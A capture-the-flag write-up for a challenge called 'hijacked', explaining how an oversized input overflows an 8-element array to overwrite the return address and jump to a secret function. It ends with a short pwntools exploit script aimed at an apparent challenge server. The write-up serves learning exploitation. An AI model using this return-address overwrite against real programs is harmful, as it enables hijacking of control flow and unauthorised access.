





## hijacked

As the title `hijacked` suggests, we have to hijack the return address of the program to point to the secret function.

And, since [aslr](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is disabled we already know the address of the secret function.

If we look at the code of the binary(either disassembled or source code), we can easily see that array `b[]` is of size 8, but the input can take upto 162 characters.

Which mean that, if we input something large it will overwrite the values of the other variables & addresses.

Using [gdb]() we can see that the address of secret function is `0x4025da` 

And, if we set breakpoint just after the input (using `b *calc+414` in gdb) we can see the memory addresses difference between our input and [rip](https://renenyffenegger.ch/notes/development/languages/assembler/x86/registers/instruction-pointer/index) to be `0xdec8 - 0xde30 = 0x98`





So, we'll send it an input which has something random for first 0x98 characters and then address of secret function(in 64-bit).

### Code
```
from pwn import *
# target = process('./pwn')
# target = remote('localhost', 9451)
target = remote('20.244.30.128', 9451)
input = "2" * 152
input += p64(0x4025da)
target.sendline("1")
target.sendline("1")
target.sendline(input)
target.interactive()
```

